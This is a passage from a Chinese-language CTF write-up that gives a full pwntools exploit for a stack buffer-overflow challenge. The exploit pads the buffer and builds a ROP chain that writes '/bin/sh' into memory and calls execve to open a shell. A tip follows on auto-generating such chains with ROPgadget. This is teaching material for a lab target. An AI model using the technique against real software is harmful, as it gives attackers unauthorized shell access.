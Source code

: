 最後將 `rdi` 指向該地址即可。

完整 exploit：

這裡的 address 可以用 `p64()` 包起來，也可以像我一樣使用 `flat()` 將整段串起來。不過使用 `flat()` 時要先設定 `context.arch`。

```py=
from pwn import *

context.arch = 'amd64'

#r = process('../rop/share/rop')
r = remote('127.0.0.1', 10004)
rop = flat(
    0x408e5c, # pop rsi ; ret
    0x49d0c0, # writable address
    0x41732c, # pop rax ; ret
    b'/bin/sh\x00',
    0x418551, # mov qword ptr [rsi], rax ; ret
    0x41732c, # pop rax ; ret
    0x3b, # execve
    0x401ff0, # pop rdi ; ret
    0x49d0c0, # writable address
    0x408e5c, # pop rsi ; ret
    0x0, # NULL
    0x45d9c7, # pop rdx ; pop rbx ; ret
    0x0, # NULL
    0x0, # NULL
    0x4011ef, # syscall
)
payload = b'A' * (0x20 + 8) + rop
r.sendlineafter(b'Give me your message: ', payload)
r.interactive()
```

solve！！

![image](https://hackmd.io/_uploads/By3c9TY6R.png)

## Bonus

有些人或許會覺得 gadgets 要一個一個找會很麻煩，所以這邊介紹一個直接生成 ROP chain 的方式就是直接使用 `ROPgadget --binary <file> --ropchain`，這樣就會生成出可以直接開 shell 的 ROP chain，不過有時候會有很雜亂的 ROP chain，甚至會導致 payload 太長，所以超過可以 buffer overflow 的長度，就像是以下情況

![image](https://hackmd.io/_uploads/B1ok3aYpR.png)
